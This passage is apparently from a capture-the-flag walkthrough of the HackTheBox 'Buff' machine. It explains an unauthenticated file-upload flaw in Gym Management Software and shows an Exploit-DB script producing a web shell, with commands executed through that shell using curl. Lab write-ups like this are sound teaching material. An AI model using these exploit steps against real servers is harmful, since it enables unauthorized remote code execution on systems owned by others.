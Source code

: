Searching for exploits related to this software, we find details of an unauthenticated exploit on the Exploit Database \([https://www.exploit-db.com/exploits/48506\](https://www.exploit-db.com/exploits/48506\)\) which allows for an unauthenticated remote code execution. We can download the exploit by using searchsploit to mirror it to the current directory using the -m flag:

```bash
searchsploit -m 48506
```

The exploit is based on an upload function in the app that allows the upload of image files. The PHP file upload.php does not check if the user is authenticated and does not properly validate the uploaded file.

```bash
$user = $_GET['id'];
<SNIP>
move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".
 $user.".".$ext);
```

Looking at the source code for upload.php, the uploaded file is first renamed v to the value supplied as the id argument u to upload.php

It will take the extension of that file from the first bit of text it finds after the "." \(2\):

```bash
$pic=$_FILES["file"]["name"];
$conv=explode(".",$pic);
ext=$conv['1'];
```

It is a good idea to make a couple of changes to the exploit code. Firstly, it has been written for Python 2 and so needs parentheses \(\) for all of its print statements if run with Python 3. Curiously some have parentheses, but others do not. The other thing I did was remove the PNG magic bytes that are added to the file. These bytes won't affect the PHP code and are used by some programs to identify the file type as a PNG file. However, the code in the Gym Management Software does not check this so it is superfluous.

Running the code, we get access to a web shell:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $python3 48506.py http://buff.htb:8080/
 /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
 \/
[+] Successfully connected to webshell.
Exiting.
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $curl http://buff.htb:8080/upload/kamehameha.php?\
telepathy=whoami
buff\shaun
```

Because curl is slightly unwieldy to use, we can send a curl request to Burp Suite, intercept that request and send it to the Repeater \(using the CTL-R key\)
